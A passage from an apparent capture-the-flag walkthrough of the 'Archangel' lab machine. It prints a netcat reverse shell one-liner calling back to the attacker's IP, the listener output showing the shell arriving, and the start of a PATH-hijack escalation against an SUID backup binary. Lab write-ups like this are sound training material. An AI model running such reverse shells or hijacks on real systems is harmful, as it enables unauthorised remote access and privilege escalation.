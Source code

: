 ```
#!/bin/bash
#echo "hello world" >> /opt/backupfiles/helloworld.txt
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <MY IP> 5555 >/tmp/f
```

Then set up a listener on my system and wait:

```
listening on [any] 5555 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.106.97] 44128
bash: cannot set terminal process group (1758): Inappropriate ioctl for device
bash: no job control in this shell
archangel@ubuntu:~$ whoami
whoami
archangel
```

<br>

## Root

<br>

Now let's check out that **secret** directory in their home directory that we couldn't access before:

```
drwxrwx--- 2 archangel archangel  4096 Nov 19  2020 .
drwxr-xr-x 6 archangel archangel  4096 Nov 20  2020 ..
-rwsr-xr-x 1 root      root      16904 Nov 18  2020 backup
-rw-r--r-- 1 root      root         49 Nov 19  2020 user2.txt
```

Opening up **user2.txt** gives us the answer to the **sixth** objective: **Get User 2 flag**

The **backup** program is set to **SUID** and will run as root, so that's our likely escalation path.

`strings backup`

```
cp /home/user/archangel/myfiles/* /opt/backupfiles
```

The **cp** command isn't set to an absolute path so we can easily make our own command with the same name and escalate our privileges to root that way.

First, looking at the environmental variable for PATH:

```
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

Running `export PATH=$PWD:$PATH` will update the path and checking again to make sure it's been updated:

```
PATH=/home/archangel/secret:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```
